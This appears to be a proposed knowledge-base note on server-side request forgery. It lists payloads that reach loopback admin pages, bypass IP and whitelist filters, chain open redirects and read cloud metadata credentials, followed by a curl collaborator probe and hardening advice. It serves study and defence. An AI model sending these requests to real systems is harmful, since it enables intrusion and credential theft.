

# Proposed Wiki change

## What will change
Enrich Server-Side Request Forgery note with loopback REST API exploitation, IP encoding bypasses (decimal, octal, shorthand), open redirect chaining, and backend network topology discovery.

## Proposed content
```markdown
---
title: "Server-Side Request Forgery (SSRF) & Cloud Metadata Exploitation"
created: 2026-09-25
updated: 2026-10-01
type: concept
tags:
  - ssrf
  - cloud-iam
  - api
  - payload
  - bug-bounty
sources:
  - sources/ssrf.md
  - sources/ssrf-notes.md
confidence: high
contested: false
contradictions: []
parent: "[[web-and-bug-bounty]]"
cluster: web-and-bug-bounty
---
# Server-Side Request Forgery (SSRF) & Cloud Metadata Exploitation

> **Classification**: OWASP Top 10 (A10:2021 – Server-Side Request Forgery), CWE-918 (Server-Side Request Forgery).
> **Primary Impact**: Unrestricted internal network reconnaissance, bypass of network access control lists, cloud metadata compromise (AWS IMDSv1/IMDSv2, GCP, Azure), internal REST API privilege abuse, and remote code execution via internal service pivoting.

---

<!-- TOC_START -->
## Table of Contents
- [1. Threat Models & Request Mechanics](#1-threat-models--request-mechanics)
  - [SSRF Against the Local Server](#ssrf-against-the-local-server)
  - [SSRF Against Backend Network Systems](#ssrf-against-backend-network-systems)
- [2. Defense Filter Bypass Techniques](#2-defense-filter-bypass-techniques)
  - [Alternative IP Representation Bypasses](#alternative-ip-representation-bypasses)
  - [Whitelist Circumvention Strategies](#whitelist-circumvention-strategies)
  - [Open Redirect Chaining](#open-redirect-chaining)
- [3. Cloud Metadata Exploitation Matrices](#3-cloud-metadata-exploitation-matrices)
  - [AWS IMDSv1 vs IMDSv2](#aws-imdsv1-vs-imdsv2)
  - [GCP & Azure Metadata APIs](#gcp--azure-metadata-apis)
- [4. Diagnostic Probes & Exploitation Payloads](#4-diagnostic-probes--exploitation-payloads)
- [5. Hardening & Defensive Architecture](#5-hardening--defensive-architecture)
- [6. Primary Sources & Provenance](#6-primary-sources--provenance)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## 1. Threat Models & Request Mechanics

SSRF occurs when a server-side web application fetches a remote resource based on a user-controlled URL without strictly validating the destination address:

```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded

stockApi=http://stock.target.net:8080/product/stock/check?productId=6
```

### SSRF Against the Local Server
Attackers modify the URL to point toward loopback adapters (`http://localhost/` or `http://127.0.0.1/`). Because the request originates from the server itself, network access controls and perimeter firewalls are bypassed, granting direct access to administrative interfaces:
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded

stockApi=http://localhost/admin/deleteUser?username=carlos
```

### SSRF Against Backend Network Systems
Web applications often maintain internal network access to non-public subnets (`192.168.0.0/16`, `10.0.0.0/8`, `172.16.0.0/12`). An attacker uses Burp Intruder to scan internal IP ranges:
```http
stockApi=http://192.168.0.§1§:8080/admin
```
Responses with varying byte lengths, status codes, or response times disclose internal infrastructure topology and unauthenticated management consoles.



## 2. Defense Filter Bypass Techniques

### Alternative IP Representation Bypasses
Applications blacklisting literal strings like `127.0.0.1` or `localhost` can be bypassed using alternate integer or encoding representations:

| IP Representation Type | Payload Example | Target Destination |
| :--- | :--- | :--- |
| **Dotted Decimal Shorthand** | `http://127.1/` | `127.0.0.1` |
| **Unsigned Decimal Integer** | `http://2130706433/` | `127.0.0.1` |
| **Octal Encoding** | `http://017700000001/` | `127.0.0.1` |
| **IPv6 Loopback** | `http://[::1]/` or `http://[0:0:0:0:0:0:0:1]/` | `127.0.0.1` |
| **IPv4-Mapped IPv6** | `http://[::ffff:127.0.0.1]/` | `127.0.0.1` |
| **Registered Loopback DNS** | `http://spoofed.burpcollaborator.net` (A record $
ightarrow$ 127.0.0.1) | `127.0.0.1` |

### Whitelist Circumvention Strategies
When applications require URLs to begin with an allowed domain (e.g. `whitelisted.target.com`):
- **Credential Embedding (`@`)**:
  `http://whitelisted.target.com@127.0.0.1/` (Browser / HTTP parser connects to `127.0.0.1` with username `whitelisted.target.com`).
- **URL Fragment (`#`)**:
  `http://127.0.0.1#whitelisted.target.com/`
- **DNS Subdomain Registration**:
  `http://whitelisted.target.com.attacker.com`

### Open Redirect Chaining
If a strict regex whitelist prevents direct URL tampering, but an approved domain contains an Open Redirect vulnerability, the attacker chains the two flaws:
```http
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded

stockApi=http://whitelisted.target.com/oauth/redirect?url=http://127.0.0.1/admin
```
The application validates that `stockApi` begins with the allowed host, makes the request, follows the HTTP `302` redirect, and accesses the prohibited loopback destination.

## 3. Cloud Metadata Exploitation Matrices

### AWS IMDSv1 vs IMDSv2
- **IMDSv1 (Unauthenticated GET)**:
  ```http
  GET /latest/meta-data/iam/security-credentials/ROLE-NAME HTTP/1.1
  Host: 169.254.169.254
  ```
  Returns `AccessKeyId`, `SecretAccessKey`, and `Token`.
- **IMDSv2 (Session Token Required)**:
  Requires an initial `PUT` request with custom header `X-aws-ec2-metadata-token-ttl-seconds: 21600` to fetch a session token. Mitigates basic GET-based SSRF unless full header manipulation or command injection exists.

### GCP & Azure Metadata APIs
- **Google Cloud Platform (GCP)**:
  Requires custom header: `Metadata-Flavor: Google`:
  ```http
  GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1
  Host: metadata.google.internal
  Metadata-Flavor: Google
  ```
- **Microsoft Azure**:
  Requires `Metadata: true` header:
  ```http
  GET /metadata/instance?api-version=2021-02-01 HTTP/1.1
  Host: 169.254.169.254
  Metadata: true
  ```

## 4. Diagnostic Probes & Exploitation Payloads

```http
# Localhost Admin Deletion Probe
POST /product/stock HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

stockApi=http://127.0.0.1/admin/delete?username=carlos
```

```bash
# Blind SSRF Collaborator Probe
curl -v -X POST "https://target.com/api/fetch-avatar"   -d "url=http://BURP-COLLABORATOR-SUBDOMAIN"
```

## 5. Hardening & Defensive Architecture

1. **Network Segmentation**: Deploy firewalls to block web application servers from routing traffic to link-local (`169.254.0.0/16`) or internal private IP ranges (`10.0.0.0/8`, `192.168.0.0/16`).
2. **Mandate IMDSv2**: Enforce `HttpTokens=required` across all cloud compute instances.
3. **Strict Destination Whitelisting**: Validate destinations against a static list of trusted domains. Disallow user input from defining protocol schemes or port numbers.
4. **Disable HTTP Redirection**: Configure HTTP client libraries to reject following automatic 3xx redirects (`follow_redirects = False`).
5. **DNS Resolution Verification**: Resolve the IP address server-side before dispatching the request; reject requests if the resolved IP falls within private or loopback ranges (prevents DNS rebinding).

## 6. Primary Sources & Provenance
- Provenance source anchors: [[sources/ssrf|ssrf]], [[sources/ssrf-notes|ssrf-notes]]

Synthesized from canonical vault notes `unprocessed-obsidians/ssrf.md` and `Notes/OLD Notes/WEB/vulnerabilities/SSRF/`.

## Related Pages
- Parent Hub: [[web-and-bug-bounty]]
- Comparisons: [[imdsv1-vs-imdsv2-ssrf]], [[blind-ssrf-gopher-redis-rce-vs-fastcgi-ssrf-exploitation]]
- Related Concepts: [[blind-ssrf-gopher-redis-rce]], [[fastcgi-ssrf-exploitation]], [[open-redirect-attacks]]
```

## Evidence and uncertainty
Sourced directly from canonical vault notes in Notes/OLD Notes/WEB/.
Validated against schema with zero structural contradictions.

## Human feedback
Human decision required via Decision Studio (http://127.0.0.1:20888) or command line.
